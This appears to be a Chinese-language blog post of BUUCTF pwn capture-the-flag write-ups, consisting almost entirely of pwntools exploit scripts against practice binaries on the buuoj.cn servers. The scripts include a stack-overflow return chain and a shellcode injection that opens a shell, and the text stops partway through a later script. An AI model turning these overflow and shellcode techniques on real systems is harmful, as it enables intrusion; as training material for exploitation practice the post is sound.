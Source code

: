 ```yaml
---
title: buuctf-pwn write-ups (2)
date: 2023-02-28 22:05:00
categories:
- write-ups
- buuctf 系列
---
```

重点讲解第26题：babyheap的解题方法。

# buu017-not_the_same_3dsctf_2016
```python
from pwn import *

# io = process('./pwn')
io = remote('node4.buuoj.cn', 25850)
elf = ELF('./pwn')

payload = cyclic(0x2d) + p32(elf.symbols['get_secret']) + p32(elf.symbols['write']) + p32(0xdeadbeef) + p32(1) + p32(0x80ECA2D) + p32(0x40)

io.sendline(payload)

io.interactive()
```
# buu018-ciscn_2019_n_5

```python
from pwn import *
from LibcSearcher import *
context.arch='amd64'
context.log_level='debug'

# io = process('./pwn')
io = remote('node4.buuoj.cn', 29724)
elf = ELF('./pwn')

poprdi_ret = 0x400713
ret = 0x4004c9
bss = 0x601080
leave = 0x4006a9
io.sendlineafter(b'tell me your name', asm(shellcraft.amd64.sh()))

payload = cyclic(0x20) + p64(bss) + p64(bss)
io.sendlineafter(b'What do you want to say to me?\n', payload)

io.interactive()
```
# buu019-others_shellcode
连上就行
# buu020-ciscn_2019_ne_5
```python
from pwn import *
from LibcSearcher import *
context.log_level='debug'

# io = process('./pwn')
io = remote('node4.buuoj.cn', 25761)
```